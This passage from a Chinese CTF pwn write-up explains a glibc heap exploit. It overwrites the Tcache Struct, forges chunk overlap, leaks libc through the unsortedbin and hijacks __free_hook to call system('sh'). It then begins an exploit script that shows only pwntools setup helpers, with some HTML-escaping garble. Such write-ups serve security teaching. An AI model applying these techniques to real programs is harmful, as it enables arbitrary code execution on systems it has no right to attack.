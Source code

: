 我们能够覆盖到 Tcache Struct 后还需要考虑如何泄露出 libc 地址，对于这道题来说，我们可以想办法先释放一个堆块到 Tcache Struct，然后再通过部分覆盖把之前释放的堆块的地址末尾字节踩为 0，再申请得到就可以构造出堆重叠。得到堆重叠后，再次覆盖把 tcache 的 counts 改为 7，再次释放就可以把堆块放到 unsortedbin 中，堆块的 fd 指针上存留的就是 libc 地址。

<a class="reference-link" name="%E5%8A%AB%E6%8C%81__free_hook"></a>**劫持__free_hook**

由于这道题没有开沙箱，所以我们直接改 Tcache Struct 到__free_hook，再劫持其内容为 system 函数的指针，释放某个内容为“sh”的堆块时就会调用 system(“sh”)来 getshell。

**<a class="reference-link" name="EXP"></a>EXP**

```
from pwn import *

elf = None
libc = None
file_name = "./chall"


# context.timeout = 1


def get_file(dic=""):
    context.binary = dic + file_name
    return context.binary


def get_libc(dic=""):
    libc = None
    try:
        data = os.popen("ldd `{``}`".format(dic + file_name)).read()
        for i in data.split('\n'):
            libc_info = i.split("=&gt;")
            if len(libc_info) == 2:
                if "libc" in libc_info[0]:
                    libc_path = libc_info[1].split(' (')
                    if len(libc_path) == 2:
                        libc = ELF(libc_path[0].replace(' ', ''), checksec=False)
                        return libc
    except:
        pass
    if context.arch == 'amd64':
        libc = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)
    elif context.arch == 'i386':
        try:
            libc = ELF("/lib/i386-linux-gnu/libc.so.6", checksec=False)
        except:
            libc = ELF("/lib32/libc.so.6", checksec=False)
    return libc


def get_sh(Use_other_libc=False, Use_ssh=False):
    global libc
    if args['REMOTE']:
        if Use_other_libc:
            libc = ELF("./libc.so.6", checksec=False)
        if Use_ssh:
            s = ssh(sys.argv[3], sys.argv[1], sys.argv[2], sys.argv[4])
            return s.process(file_name)
        else:
            return remote(sys.argv[1], sys.argv[2])
    else:
        return process(file_name)


```